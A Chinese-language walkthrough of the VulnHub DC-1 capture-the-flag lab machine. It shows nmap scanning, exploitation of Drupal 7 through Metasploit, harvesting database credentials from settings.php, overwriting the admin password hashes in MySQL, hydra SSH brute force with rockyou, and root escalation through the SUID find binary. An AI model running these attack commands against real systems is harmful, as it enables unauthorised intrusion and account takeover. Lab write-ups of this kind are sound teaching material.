## 环境准备

官网下载 https://download.vulnhub.com/dc/DC-1.zip

下载解压，得到.ova文件，导入到VM中打开加载即可使用。



注意将dc-1机器与kali设置网络可以互通（桥接、nat都可以）。

## 测试过程

### 1.信息收集

#### 主机发现与端口扫描

当前仅仅知道目标与我们在同一网段，但不能确定具体的IP，因此使用探测工具扫描以下，寻找网段内存活主机，定位目标。

nmap -sn -PR -n -v 192.168.1.0/24, 探测到存活主机192.168.1.137



进一步探测系统、端口开放情况等信息：nmap -sV -p- 192.168.1.137



探测到22、80端口，这都可能出现可利用的点，记录备用。

#### 具体服务探测

浏览器访问80web端口：



发现是一个cms建站，使用火狐插件wappalyzer，收集站点信息，收获如下：

```sql
cms:Drupal v7
web服务器：apache 2.2.22
语言：php-5.4.45
操作系统：Debian
js库：jQuery 1.4.4
```

这些信息，都有可能存在可利用的点，这些信息也可以通过kali自带的扫描工具whatweb进行探测：

**whatweb -v 192.168.1.137**



**目录扫描，收集更多web信息备用**

**dirsearch**

```sql
dirsearch -u 192.168.1.137 -r -t 30    递归扫描，不过容易被检测,线程控制请求速率
```





有一些收获，记录备用。

### 2.漏洞探测与利用

针对80端口开放的web服务，搜寻一下有没有cms历史漏洞可以加以利用



可以看到，是存在历史漏洞的。为方便利用，在msf框架中搜索一下，有没有集成相关exp:



有集成相关exp，选择一个较新的攻击一下：



攻击成功，建立起msf的meterpreter会话，之后用python拿一个稳定的shell:



 到这里，我们进入到了DC1的www-data用户下，并在当前目录下发现了flag1.txt，我们查看flag1.txt，得到提示：任何一个完善的CMS都需要配置文件---所以你应该怎么做。



 根据提示看一下配置文件，一般来说配置文件都有一些特别重要的信息在里面，搞不好还能提权，百度Drupal配置文件，路径挺复杂的，不过知道了名字叫settings.php，我们可以用命令直接搜索并打开，内联执行 ：

```sql
cat `find / -name settings.php`
```



找到flag2，同时发现数据库配置： db=drupaldb，username=dbuser，password=“R0ck3t”  

使用获取到的数据库账号密码进行数据库登录   **mysql -u dbuser -pR0ck3t**



数据库操作，查找用户、密码等信息，在drupaldb数据库的user表中，找到admin用户的记录，以及hash加密的密码

```sql
| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
```



这时想要直接登录，不可能了，搜索一下能不能改掉密码之类的操作：

[分享：忘记Drupal的管理员密码的解决办法 | Drupal China](https://drupalchina.cn/node/2128)

法一：用原生加密脚本，加密生成一个我们自己的知道的简单密码，然后在数据库中替换掉原来密码：搜索知道加密脚本在：

```sql
/var/www/scripts/password-hash.sh
```

使用脚本，加密我们的密码

```sql
php /var/www/scripts/password-hash.sh uf9n1x

password: uf9n1x    hash: $S$DRYLvdJrnjiLw/E9cT/J0CtHajJvcCiNdWdRQZivUpuqRZChIkBJ
```



重新进入数据库，更新admin用户的密码

```sql
use drupaldb;update users set pass = "$S$DRYLvdJrnjiLw/E9cT/J0CtHajJvcCiNdWdRQZivUpuqRZChIkBJ" where name = 'admin' or name = 'Fred';
```



法二、利用该cms爆出的另一个历史漏洞，可以添加管理员用户，也很简单，这里不做讨论


用我们修改的用户与密码，以网站管理员admin用户登录看看：找到了flag3



 登进去就找到了flag3，提示了我们一些信息passwd和shadow，明显就是linux的文件

​    /etc/passwd

​    该文件存储了系统用户的基本信息，所有用户都可以对其进行文件操作读

  [Linux /etc/passwd内容解释（超详细）](http://c.biancheng.net/view/839.html)

​    /etc/shadow

​    该文件存储了系统用户的密码等信息，只有root权限用户才能读取

 [Linux /etc/shadow（影子文件）内容解析（超详细）](http://c.biancheng.net/view/840.html)

先浏览一下/etc/passwd文件：

```sql
cat /etc/passwd
```



发现了还有个flag4用户，因为一开始信息收集发现除了80端口以外，机器还开放了22端口，因此这里思路就是爆破一下用户的密码，进行ssh链接

使用hydra爆破flag4用户的密码：[（总结）Linux下的暴力密码在线破解工具Hydra详解](http://www.ha97.com/5186.html)

```sql
hydra -l flag4 -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.1.137
```



ssh远程连接: ssh@192.168.1.137     输入密码：orange,发现是普通权限用户



cat文件，得到flag4,提示用同样的方法拿到root用户下的flag,那么就提权到root

### 3.提权

suid提权，查找具有x权限的文件

```sql
find / -perm -u=s -type f 2>/dev/null
```



发现有mount、ping、su、find等命令，都可以利用，这里以find为例：

```sql
find test.txt -exec whoami \;
find / -name index.php -exec "/bin/sh" \;
find /home -exec /bin/sh \;
python -c 'import pty;pty.spawn("/bin/sh")' 
```

生成交互式终端找到最终flag,通关

## 补充思考

回顾打靶场过程，我们发现，其实不必先登录flag4用户，直接从www-data用户提权应该也是可以的



效果完全相同。

## 总结

1、主机发现使用nmap,也可以用来扫描目标可能存在的常规漏洞，使用vuln脚本

2、web识别扫描用插件wappalyzer、或者whatweb工具

3、suid提权

4、hydra爆破ssh链接，远程登陆

5、针对webcms,要进行广泛且细致的信息收集工作，比如配置文件、加密文件的位置，等等，往往有惊喜